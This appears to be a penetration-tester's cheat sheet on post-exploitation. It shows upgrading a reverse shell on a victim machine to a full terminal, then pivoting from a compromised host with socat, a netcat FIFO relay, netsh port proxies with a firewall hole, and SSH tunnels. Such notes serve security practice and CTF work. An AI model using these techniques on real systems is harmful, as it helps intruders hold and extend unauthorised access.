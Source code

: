 # General
### Shell-Upgrade
#linux
* **requires python or other interpreted language installed on the victim machine.**
```bash
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
# In Kali
stty raw -echo
fg
# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty columns [height] rows [width]
```
- Alternatively, one can replace `python -c 'import pty; pty.spawn("/bin/bash")'` with `script -q /dev/null -c /bin/bash`
#windows 
```shell
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```
### Port-Forward
#### socat
- On the compromised machine.
```bash
socat -ddd TCP-LISTEN:[Local_Port],fork TCP:[DESTINATION_IP]:[DESTINATION_PORT]
```
#### netcat + FIFO 
#linux 
- On the compromised machine.
```bash
rm /tmp/f;mkfifo /tmp/f;nc -lk -p [Local_Port] < /tmp/f | nc [DESTINATION_IP] [DESTINATION_PORT] > /tmp/f
```
#### netsh
#windows 
- Native way that requires **administrative privileges** to create a port forward on Windows.
```bash
netsh interface portproxy add v4tov4 listenaddress=[LOCAL_IP] listenport=[LOCAL_PORT] connectaddress=[DESTINATION_SERVER] connectport=[DESTINATION_PORT]
# Optionally, poke a hole in firewall if necessary.
netsh advfirewall firewall add rule name="[Rule_Name]" protocol=TCP dir=in localip=[IP] localport=[PORT] action=allow
```
### Tunneling
#### SSH
- On the attacker machine.
- <mark>Local Port Forward</mark>
```bash
# forward a port from the client machine to the server machine. Essentially, it allows you to connect from your client machine to another server from an intermediate machine (the SSH server).
ssh -v -N -L [SSH_Client_PORT]:[DESTINATION_IP]:[DESTINATION_PORT] [USERNAME]@[TARGET]
```
- <mark>Remote Port Forward</mark>
```bash
# forward a port from the server machine to the client machine. Essentially, it allows external users to connect to a certain port on your client machine from an intermediate machine (the SSH server).
ssh -v -N -R [SSH_SERVER_PORT]:[DESTINATION_IP]:[DESTINATION_PORT] [USERNAME]@[TARGET]
```